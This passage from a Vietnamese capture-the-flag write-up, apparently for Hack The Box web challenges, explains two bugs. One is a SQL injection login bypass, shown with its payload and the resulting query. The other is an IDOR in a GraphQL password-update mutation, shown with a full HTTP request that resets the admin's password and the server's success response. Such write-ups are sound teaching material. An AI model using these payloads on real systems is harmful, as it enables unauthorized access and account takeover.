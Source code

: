 ```python 
        
    return response('Invalid credentials!'), 403
```
Vào `database.py`, tại hàm `login`, thấy username và password truyền vào được đưa trực tiếp vào câu query để đưa đến database, không có santinize, không có parameterize => SQL Injection, dựa vào các routes ta biết chỉ cần login vào là có flag

```
username: admin" or 1=1-- -
password: a
```

Câu query lúc này sẽ thành:
```
SELECT password FROM users WHERE username = "admin" or 1=1-- -" AND password = "a"
```

Dấu `-- ` sẽ biến đoạn sau thành comment. Login vào ta có được flag
```
HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}
```

## Passman
#### Easy
Bài này dùng graphql để call tới API, xem kỹ tất cả type trong file `GraphqlHelper.js` thì gần như đều kiểm tra xem đã login chưa, tuy nhiên lại không kiểm tra xem user đã login là user gì, cụ thể là ở field `UpdatePassword`, do không kiểm tra user đang đăng nhập và user sắp thay đổi có giống nhau hay không nên ta có thể lợi dụng để update password của bất kì user nào sau khi login => Lỗi IDOR.

Nhìn vào file `entrypoint.sh` sẽ thấy trong phrases của admin sẽ có flag, ta sẽ lợi dụng bug trên để update password của admin và vào đọc flag

Đầu tiên là tạo một account rồi login vào, sau đó gửi request Graphql để update password:
```http!
POST /graphql HTTP/1.1
Host: 159.65.81.51:31318
Content-Length: 183
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.81.51:31318
Referer: http://159.65.81.51:31318/register
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhIiwiaXNfYWRtaW4iOjAsImlhdCI6MTY3OTU1Nzc4N30.yFyqY8lBZdG_x4cTqdf4EprgTQRQJfduMpp7w4qBdW8

{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"123"}}
```

response:
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 72
Date: Thu, 23 Mar 2023 07:50:18 GMT
Connection: close

{"data":{"UpdatePassword":{"message":"Password updated successfully!"}}}
```
